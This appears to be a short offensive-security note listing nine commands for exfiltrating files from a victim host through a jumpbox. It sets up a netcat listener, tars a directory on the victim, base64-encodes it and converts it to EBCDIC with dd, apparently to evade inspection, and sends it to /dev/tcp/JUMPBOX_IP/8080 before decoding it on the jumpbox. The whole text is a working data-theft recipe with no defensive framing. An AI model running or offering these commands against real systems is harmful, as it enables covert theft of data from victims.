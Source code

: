 ## Example:

#### 1) Jumpbox: nc -lvnp 8080 > /tmp/data

#### 2) Jumpbox ssh USER@VICTIM_IP or DOMAIN

#### 3) Attacker: ssh USER@VICTIM_IP -p 2022 (example)

#### 4) Victim1: tar zcf - dir/ | base64 | dd conv=ebcdic > /dev/tcp/JUMPBOX_IP/8080

#### 5) Jumpbox: ls -l /tmp/

#### 6) Jumpbox: cd /tmp/

#### 7) Jumpbox: dd conv=ascii if=data | base64 -d > data.tar

#### 8) Jumpbox: tar xvf data.tar

#### 9) Jumpbox: cat data.txt
